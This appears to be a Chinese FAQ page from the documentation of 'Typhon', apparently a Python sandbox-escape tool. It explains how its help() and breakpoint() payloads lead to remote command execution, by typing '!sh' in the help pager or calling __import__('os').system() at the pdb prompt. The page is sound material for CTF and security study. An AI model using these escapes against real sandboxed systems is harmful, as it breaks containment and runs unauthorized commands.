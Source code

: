 FAQ 常见问题
==================

如何使用 ``help()`` RCE
---------------------------

有时 ``Typhon`` 会返回 ``help`` 函数作为payload。在linux中，假如我们能进入python help的交互式界面，我们可以输入：

.. code-block:: bash

    help> os

随后再输入 ``!sh`` 即可获得shell。

.. warning::
    
    由于实现方式不同，此方法只对linux环境有效。如果你想用其他的函数，如 ``breakpoint()``，请将对应绕过函数
    的 ``print_all_payload`` 变量设置为 ``True``。

如何使用 ``breakpoint()`` RCE
-----------------------------

有时 ``Typhon`` 会返回 ``breakpoint`` 函数作为payload。在linux中，假如我们能进入python help的交互式界面，我们可以输入：

.. code-block:: bash

    >>> breakpoint()
    1
    > <python-input-1>(1)<module>()
    (Pdb) __import__('os').system('') # 你要输入的命令

进行RCE。 ``pdb.set_trace()`` 同理。